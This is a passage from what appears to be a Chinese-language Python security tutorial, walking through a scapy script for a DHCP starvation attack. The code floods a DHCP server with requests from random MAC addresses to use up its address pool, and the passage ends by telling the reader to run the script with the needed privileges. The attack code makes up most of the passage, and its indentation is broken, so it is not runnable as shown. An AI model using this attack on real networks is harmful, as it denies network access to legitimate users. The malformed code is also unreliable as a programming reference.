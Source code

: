 ```
          pkt /= DHCP(options=[("message-type", "request"),
                               ("requested_addr", requested_addr),
                              ("server_id", "192.168.1.1"),
                               "end"])
          sendp(pkt)
          print ("Trying to occupy "+requested_addr)
          sleep(0.2)  # interval to avoid congestion and packet loss 
```

这将首先生成指定范围内的 IP。此外，它还将为数据包创建一个随机 MAC 地址。然后，这将生成一个带有生成的 IP 地址和 MAC 的 DHCPRequest 数据包。然后，它将发送数据包。生成的数据包如下所示：

![](../images/00061.jpeg)

7.  现在，我们可以启动线程并尝试占用 DHCP 服务器中的 IP 地址：

```
def main():
    thread = Thread(target=sniff_udp_packets)
    thread.start()
    print ("Starting DHCP starvation...")
   while len(ip) < 100: 
    occupy_IP()
    print ("Targeted IP address starved")   
  main()

```

8.  现在，使用所需的权限运行脚本。